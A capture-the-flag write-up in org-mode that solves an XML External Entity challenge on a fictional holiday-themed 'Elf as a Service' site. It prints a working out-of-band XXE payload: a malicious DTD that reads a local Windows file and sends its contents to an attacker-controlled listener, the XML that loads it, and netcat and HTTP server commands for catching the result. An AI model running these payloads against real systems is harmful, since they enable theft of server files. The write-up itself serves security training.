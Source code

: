 * Question
   :PROPERTIES:
   :CUSTOM_ID: q6_question
   :END:

The North Pole engineering team has introduced an Elf as a Service
(EaaS) platform to optimize resource allocation for mission-critical
Christmas engineering projects at
http://eaas.northpolechristmastown.com. Visit the system and retrieve
instructions for accessing The Great Book page from C:\greatbook.txt.
Then retrieve The Great Book PDF file by following those directions.
What is the title of The Great Book page?

/For hints on this challenge, please consult with Sugarplum Mary in the North Pole and Beyond./

* Background Information
   :PROPERTIES:
   :CUSTOM_ID: q6_background-information
   :END:

 #+begin_hint
 The Elf As A Service (EAAS) site is a new service we're experimenting with in the North Pole. Previously, if you needed a special engineer for toy production, you would have to write a memo and distribute it to several people for approval. All of that process is automated now, allowing production teams to request assistance through the EAAS site.
 #+end_hint

 #+begin_hint
 The EAAS site uses XML data to manage requests from other teams. There is a sample request layout available that you can download. Teams just customize the XML and submit!
 #+end_hint

 #+begin_hint
 I think some of the elves got a little lazy toward the go-live date for EAAS. The sample XML data doesn't even include a DTD reference.
 #+end_hint

 #+begin_hint
 XML processing can be complex. I saw an interesting article recently on the [[https://pen-testing.sans.org/blog/2017/12/08/entity-inception-exploiting-iis-net-with-xxe-vulnerabilities][dangers of external XML entities]].
 #+end_hint

This post is called out in the hints:

 Exploiting XXE Vulnerabilities in IIS.NET
 https://pen-testing.sans.org/blog/2017/12/08/entity-inception-exploiting-iis-net-with-xxe-vulnerabilities

To pull off this attack, we'll need to host a file somewhere that the EaaS system can reach. We can either host it on l2s, in which case we'll use the following blog post for creating a file on that system, which is locked down with =rbash=:

 A Spot of Tee
 https://pen-testing.sans.org/blog/2017/12/06/a-spot-of-tee

Alternatively, we could spin up an AWS VM using the instructions in:

 Putting My Zero Cents In: Using the Free Tier on Amazon Web Services (EC2)
 https://pen-testing.sans.org/blog/2017/12/10/putting-my-zero-cents-in-using-the-free-tier-on-amazon-web-services-ec2

The hints are all pretty strongly pointing us towards an {{{abbr(XML External Entity, XXE)}}} vulnerability.

* Goal
   :PROPERTIES:
   :CUSTOM_ID: q6_goal
   :END:

We want to access =C:\greatbook.txt=, and then follow those instructions to retrieve a page of the Great Book.

* Approach
   :PROPERTIES:
   :CUSTOM_ID: q6_approach
   :END:

We'll start with just pulling up the site in a browser:

#+CAPTION: EaaS Home
#+attr_html: :width 350px
[[./images/eaas_home.png]]

Poking around the site a bit, we see that it provides four functions:

1. We can view our current Elf order at http://eaas.northpolechristmastown.com/Home/DisplayXML,
2. On that same page, we can make a change to our order by uploading a file,
3. We can reset the XML file here: http://eaas.northpolechristmastown.com/Home/CreateElfs,
4. We can download the XML file here: http://eaas.northpolechristmastown.com/XMLFile/Elfdata.xml

All this XML talk lines up pretty well with the blog post and the hints. Let's see if the EaaS site is vulnerable to {{{abbr(XML External Entity, XXE)}}}.

Following along with the blog post, we'll create a malicious
{{{abbr(Data Type Definition, DTD)}}} file, borrowing liberally from the SANS post:

#+CAPTION: The DTD File
#+BEGIN_SRC xml
<?xml version="1.0" encoding="UTF-8"?>
<!ENTITY % stolendata SYSTEM "file:///c:/greatbook.txt">
<!ENTITY % inception "<!ENTITY % sendit SYSTEM 'http://10.142.0.11:8272/?%stolendata;'>">
#+END_SRC

If we can get the XML parser to use this {{{abbr(Data Type Definition, DTD)}}} 
file, it will read our target text file, then send it to a system that
we control. This file doesn't help the parser know how to parse our
XML, but we don't really care if it gets parsed correctly or not.

In order to have the XML parser load this {{{abbr(Data Type Definition, DTD)}}} file, we'll use the XML example in the blog post:

#+begin_note
This example in the blog post had a typo, where the last character was a =<= instead of a =>=.
#+end_note

#+CAPTION: The XML File
#+BEGIN_SRC xml
<?xml version="1.0" encoding="utf-8"?>
<!DOCTYPE demo [
    <!ELEMENT demo ANY >
    <!ENTITY % extentity SYSTEM "http://10.142.0.11:8271/evil.dtd">
    %extentity;
    %inception;
    %sendit;
    ]
>
#+END_SRC

This will load our =evil.dtd= file, then instantiate the necessary
entities. To finish off the attack, we'll need two HTTP services
running. The first will need to serve the =evil.dtd= file. Python's
=SimpleHTTPServer= is the easiest way to do this, and in fact, that's
provided on l2s. We'll create our file, with tee, then start a
server. Ports 8080 and 4444 are very contentious on l2s, so we'll use
non-standard ones instead:

#+BEGIN_SRC
alabaster_snowball@hhc17-apache-struts2:/tmp/asnow.EtweHkIXQZGuoo51RBy2FSyA$ cat | tee evil.dtd
<?xml version="1.0" encoding="UTF-8"?>
<!ENTITY % stolendata SYSTEM "file:///c:/greatbook.txt">
<?xml version="1.0" encoding="UTF-8"?>
<!ENTITY % stolendata SYSTEM "file:///c:/greatbook.txt">
<!ENTITY % inception "<!ENTITY % sendit SYSTEM 'http://1.2.3.4:8272/?%stolendata;'>">
<!ENTITY % inception "<!ENTITY % sendit SYSTEM 'http://1.2.3.4:8272/?%stolendata;'>">
alabaster_snowball@hhc17-apache-struts2:/tmp/asnow.EtweHkIXQZGuoo51RBy2FSyA$ python -m SimpleHTTPServer 8271
Serving HTTP on 0.0.0.0 port 8271 ...
#+END_SRC

In another terminal, we'll start up a =netcat= listener, to capture the response:

#+BEGIN_SRC 
alabaster_snowball@hhc17-apache-struts2:/tmp/asnow.sHkbOWKtpdnH8SGpCM2VAMgL$ nc -l -p 8272
#+END_SRC

With these services in place, we're ready to upload our malicious XML file. Using a web browser, we'll upload our XML file, and then see what happens.

#+BEGIN_SRC 
Serving HTTP on 0.0.0.0 port 8271 ...
10.142.0.13 - - [10/Jan/2018 22:26:43] "GET /evil.dtd HTTP/1.1" 200 -
#+END_SRC

Great, our DTD file was loaded! And checking our =netcat= instance:

#+BEGIN_SRC 
alabaster_snowball@hhc17-apache-struts2:/tmp/asnow.sHkbOWKtpdnH8SGpCM2VAMgL$ nc -l -p 8272
#+END_SRC

...nothing. That's disappointing. We've already noticed one typo in
the blog. Could it be possible that there was another error? Taking a
close look at the image on the page, we notice that part of the DTD
file is escaped differently from how the example shows up on the
webpage:

#+CAPTION: DTD File
#+attr_html: :width 350px
[[./images/eaas_dtd.png]]

We'll update our DTD file, so that the percent sign before ~sendit~ is escaped:

#+BEGIN_SRC xml
<?xml version="1.0" encoding="UTF-8"?>
<!ENTITY % stolendata SYSTEM "file:///c:/greatbook.txt">
<!ENTITY % inception "<!ENTITY &#x25; sendit SYSTEM 'http://10.142.0.11:8272/?%stolendata;'>">
#+END_SRC

We'll upload our file one more time, and...

#+BEGIN_SRC 
alabaster_snowball@hhc17-apache-struts2:/tmp/asnow.yNLdj0xcg7AZi5v1gYns2lFO$ nc -l -p 8272
GET /?http://eaas.northpolechristmastown.com/xMk7H1NypzAqYoKw/greatbook6.pdf HTTP/1.1
Host: 10.142.0.11:8272
Connection: Keep-Alive
#+END_SRC

Success! In the =GET= request, the text after =?= is the contents of C:\greatbook.txt. If we pull up that URL, we get [[https://www.holidayhackchallenge.com/2017/pages/8943e0524e1bf0ea8c7968e85b2444323cb237af/GreatBookPage6.pdf][GreatBookPage6.pdf]].

* Solution
   :PROPERTIES:
   :CUSTOM_ID: q6_solution
   :END:

We upload this XML file:

#+BEGIN_SRC xml
<?xml version="1.0" encoding="utf-8"?>
<!DOCTYPE demo [
    <!ELEMENT demo ANY >
    <!ENTITY % extentity SYSTEM "http://10.142.0.11:8271/evil.dtd">
    %extentity;
    %inception;
    %sendit;
    ]
>
#+END_SRC

And this is our DTD:

#+BEGIN_SRC xml
<?xml version="1.0" encoding="UTF-8"?>
<!ENTITY % stolendata SYSTEM "file:///c:/greatbook.txt">
<!ENTITY % inception "<!ENTITY &#x25; sendit SYSTEM 'http://10.142.0.11:8272/?%stolendata;'>">
#+END_SRC

When we upload our XML file, we receive the contents of the target file, and can then download the PDF.

* Common Pitfalls
   :PROPERTIES:
   :CUSTOM_ID: q6_common-pitfalls
   :END:

This followed closely to the SANS blog post, but there was a typo and an HTML rendering issue with some of the provided code that caused some headaches.

